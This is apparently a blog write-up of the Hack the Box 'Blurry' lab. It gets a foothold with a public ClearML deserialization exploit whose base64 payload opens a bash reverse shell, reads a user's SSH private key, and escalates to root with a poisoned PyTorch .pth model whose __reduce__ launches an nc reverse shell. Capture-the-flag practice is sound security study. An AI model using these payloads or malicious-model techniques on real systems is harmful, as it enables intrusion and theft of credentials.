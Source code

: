 ```yaml
---
draft: false
title: "Hack the Box #5 - Blurry w/o Metasploit"
date: 2024-08-14
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
  - Linux
cover:
  image: hack_the_box_5_blurry.png
  alt: hack_the_box_5_blurry.png
---
```


I woke up this morning breathed in that sweet morning air. I could feel it, to days the day ima hack a box and come to the sun setting I had pwned this box by getting an AI model to execute a reverse shell that got me root! Here we go

![ChewingStraw](https://media4.giphy.com/media/v1.Y2lkPTc5MGI3NjExamtrYXIyajJ5NjFtNzRzc25mdmQzbTFsNG9xamtqbHJpZXZudXhydyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/lqqB7E9CdSG76/200.gif#center)

---
## Enumeration
What can nmap tell us about this target

```bash
└─$ nmap -A -p- 10.10.11.19 -oN nmap.scan
# Nmap 7.94SVN scan initiated Sat Aug 10 11:14:11 2024 as: nmap -A -p- -oN nmap.scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to <http://app.blurry.htb/>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Aug 10 11:14:36 2024 -- 1 IP address (1 host up) scanned in 25.45 seconds

```

Lets add `app.blurry.htb` to our hosts file and run some subdomain enumeration tool to see what else is out there


```bash
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.19 -H "HOST: FUZZ.blurry.htb" -ac -o ffuf.scan

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
_______________________________________________

...
app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 11ms]
files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 21ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 56ms]
```


So we have `app` , `files` and `chat` as subdomains. Adding these to the hosts file lets enumerate each of these for their sub directories.

I went ahead and dug around with both gobuster and manually exploring. When going to `app.blurry.htb` we get taken to an webapp and are prompted to create an account. Which I do, called `Deez` and poke around.

---
## Exploitation
In the investigation we find the `app` subdomain is running an app called **clear.ml** and with some trusty googling we find this vuln [https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit) to execute this script first we need to create credentials on our clear.ml account. 
![keys](https://i.imgur.com/457thdA.png#center)

Once that is done and the subdomain `api` is added to the hosts file we configure the exploit.
```bash
└──$ python3 exploit.py                                                    
                                           
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⣠⣴⣶⣾⣿⣿⣿⣷⣶⣤⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⢀⣴⣿⣿⣿⡿⠿⠟⠛⠻⠿⣿⣿⣿⡷⠆⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⢠⣿⣿⣿⠟⠁⠄⠄⠄⠄⠄⠄⠄⠉⠛⠁⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢠⣿⣿⣿⠃⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢸⣿⣿⡇⠄⠄⠄⠄⣠⣾⠿⢿⡶⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⢸⣿⣿⣿⣿⡇⠄⠄⠄⠄⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⣿⣿⣿⣿⣷⡀⠄⠄⠄⠙⠿⣶⡾⠟⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠘⣿⣿⣿⣿⣷⣄⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠘⢿⣿⣿⣿⣿⣷⣦⣤⣀⣀⣠⣤⣴⣿⣿⣷⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠙⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⠁⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠈⠛⠻⠿⣿⣿⡏⠉⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                      
CVE-2024-24590 - ClearML RCE
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 1
[+] Creating a copy of clearml.conf in clearml.conf.bak
[+] Initializing ClearML
[i] Press enter after pasting the configuration
...
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
...
ClearML setup completed successfully.

```

Now we are primed for attack and it is time to pounce 

![pounce](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExb3JleDdvcjRmcXIweGN0bXkzajQwZ3BzaW1ja2x4MWV0MGQ3eWUwaiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26h0qOq4LxV8YcDKw/giphy.gif#center)


```bash
└─$ python3 exploit.py
...
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 2
[+] Your IP: 10.10.14.62
[+] Your Port: 1234
[+] Target Project name Case Sensitive!: Black Swan
[+] Payload to be used: echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi8xMjM0IDA+JjEi | base64 -d | sh
[?] Do you want to start a listener on 1234? (y/n): y
[+] pwncat listener started on 1234
[i] This exploit requires that another user deserializes the payload on their machine.
ClearML Task: created new task id=3df2aa3a66144bbbbdba441a8689b4ed
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/3df2aa3a66144bbbbdba441a8689b4ed/output/log
[i] Please wait...
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
bash: cannot set terminal process group (220630): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ 

```

And after a little wait for the ML model to execute we get a lovely call home, which leads us nicely to the first user flag and poking around the user profile we find a SSH key which helps us keep persistence on our target.
```bash
jippity@blurry:~$ cat user.txt
================ USER_FLAG ================
jippity@blurry:~$ cat /.ssh/id_rsa
=============== PRIVATE_KEY ===============
_________________________________________
└─$ ssh -i id_rsa jippity@10.10.11.19
jippity@blurry:~$ 
```

---
## Privilege Escalation

With persistence achieved it is time to escalate to root. Transferring over linpeas using our newly acquired private key we can get a broadview of what vectors to escalation we have available to us. 

```bash
└─$ scp -i /home/kali/.ssh/id_rsa ./linpeas.sh jippity@10.10.11.19:~/
_______________________________________________________________________
jippity@blurry:~$ linpeas.sh
...
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
...
```

Looking through linpeas findings one thing stands out as interesting. There is a program `/usr/bin/evaluate_model` that when executed will be run as root and it doesn't require a password to do so. Taking a closer look at the script in question it looks to only take .pth files.
A .pth file is a compiled AI model file that is used by [PyTorch to save and load models](https://pytorch.org/tutorials/beginner/saving_loading_models.html). So in theory if we can create our own malicious model we can get this script to execute the malicious model and use it to escalate.

Here is the script ill be using:
```python
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, abdulrahman): # Passes input through the linear layer.
        return self.dense(abdulrahman)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.46 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'callhome.pth')
```

**Explanation of the Script**:

- **`MaliciousModel` Class**: Defines a simple neural network model.
- **`__reduce__ Method`**: Overridden to include a command that creates a reverse shell using netcat.
- **`torch.save` Function**: Saves the model to a file named `.callhome.pth`.

Pushing this onto the box and we pass the malicious model to the `evaluate_model` script as follows and wait...
```bash
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/callhome.pth 
```

Looking to our netcat awaiting in the wings with baited breath... SHELL!!!
```Bash
# whoami
root
# cat /root/root.txt
================= ROOT_FLAG =================
```

And that is root baby! WINNING!!! And I get my [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/605) from Hack the Box as a reward.  Now that I can say with confidence I have hacked an AI model I'm going to go touch some grass :D

![touchGrass](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExdWt0Z3Z5a2R6ODhpM2h1azVqNTExazE1MHVqMms5amZzbGwzdzBsbCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/VlYBM5zERKWD5ONSzi/giphy.gif#center)


